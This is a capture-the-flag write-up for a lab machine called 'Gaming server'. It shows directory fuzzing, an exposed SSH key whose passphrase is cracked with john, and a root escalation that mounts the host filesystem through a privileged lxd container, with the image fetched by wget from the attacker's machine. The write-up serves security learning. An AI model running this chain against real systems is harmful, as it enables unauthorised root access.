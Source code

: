# Gaming server

![image](https://user-images.githubusercontent.com/5285547/129213923-1713646e-a1c6-4cee-bc44-c178af9519f7.png)

Room link: 

## Enum

Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

# Port 80

The main site shows a cool game website. 

![image](https://user-images.githubusercontent.com/5285547/129214254-b87580b5-757e-4ef2-8246-6fcff584aa4e.png)

The source code shows an intresting entry too. 

![image](https://user-images.githubusercontent.com/5285547/129214467-d602a8ef-516a-44f7-a7ca-10985e03d1e1.png)

Looking about the website i stumble on an uploads section. Then a password list. 
I ran anthoer directory search and found a dir called secret 

```
ffuf -u http://10.10.1.66/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -fc 403 -ic

uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10]
secret                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

Which led to a secret key! (id_rsa)

![image](https://user-images.githubusercontent.com/5285547/129217613-9f6b728f-18b7-4a17-822d-9641796e40be.png)

![image](https://user-images.githubusercontent.com/5285547/129214557-5d0b3f7a-cb10-4cf1-805c-82c70550ea9d.png)

![image](https://user-images.githubusercontent.com/5285547/129214980-5b939017-51a2-48bf-88dc-35f561b778a1.png)

After fuzzing and finding an intresting file, about.php. I checked the source code to see. 

![image](https://user-images.githubusercontent.com/5285547/129215745-66c5f4e4-8339-4b6b-a085-a2664553e6df.png)

---

## User

Using the key we found in secret we can try to login to the box on ssh. 

```
nano id_rsa
chmod 600 id_rsa
ssh john@10.10.1.66 -i id_rsa
```

But the id_rsa needed a password, So time to crack it! 

```
/usr/share/john/ssh2john.py id_rsa > hash 
john --wordlist=/usr/share/wordlists/rockyou.txt hash

letmein          (id_rsa)
```

Let's login again now.. 

```
ssh john@10.10.1.66 -i id_rsa
letmein
```

We are on the box. 

![image](https://user-images.githubusercontent.com/5285547/129218212-f063c3b7-8036-4fa8-8885-58542cd91ac2.png)

--- 

## Root

I copied linpeas to the box to see what we can find. I seen instanlty that lxd and sudo were vunerable. 

![image](https://user-images.githubusercontent.com/5285547/129218651-b3434233-d592-4aa0-bd91-ee74de7d924f.png)

### Lxc

Lxc showed no images on the box. 

![image](https://user-images.githubusercontent.com/5285547/129219144-399d5c08-291a-456a-aefe-c7ecc2442a9d.png)

So time to create one and get it on the box to be able to exploit it. 

```
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# copy the image to the machine.
sudo python3 -m http.server 8000
wget http://10.8.153.120:8000/alpine-v3.8-i686-20210812_1556.tar.gz

# import the image
lxc image import ./alpine*.tar.gz --alias myimage 
# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default (accpet all defaults)
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

And we can get the last flag and finish the box. 

![image](https://user-images.githubusercontent.com/5285547/129220300-54481fba-27e0-4d0a-b42f-79da576289d0.png)

